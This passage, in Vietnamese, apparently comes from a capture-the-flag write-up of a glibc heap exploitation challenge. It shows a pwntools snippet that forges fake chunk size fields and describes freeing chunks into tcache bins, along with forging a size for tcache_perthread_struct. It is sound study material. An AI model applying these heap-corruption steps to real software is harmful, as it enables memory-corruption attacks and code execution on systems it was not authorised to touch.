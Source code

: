 ```python
fake_chunk = flat({
    0x418 : [0x1b1],        # <-- chunk 3
    0x4a8 : [0x21],         # <-- chunk 5
    0x538 : [0x31]          # <-- chunk 6
}, length=0x5b0, filler=b'a')
buy(2, 0x5b0, fake_chunk)
```

Dùng hàm `flat` trong `pwntools` để setup cho tiện :v Các offset thì tùy chỉnh bằng GDB thôi. 

Sau đó, free 2 chunk 5, 6 ta sẽ được 2 tcache 0x20, 0x30.  

![](../img/2020-11-14-12-13-35.png)   

Size của chunk 3 ta sẽ thiết lập là `0x1b0` :v Sẽ dùng cho phần sau :vv   

### STEP 3.3 : Tạo size giả cho tcache_perthread  

```c
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

Sau bước trên, `tcache_perthread_struct` của chúng ta trở thành :  

![](../img/2020-11-14-12-24-14.png)  
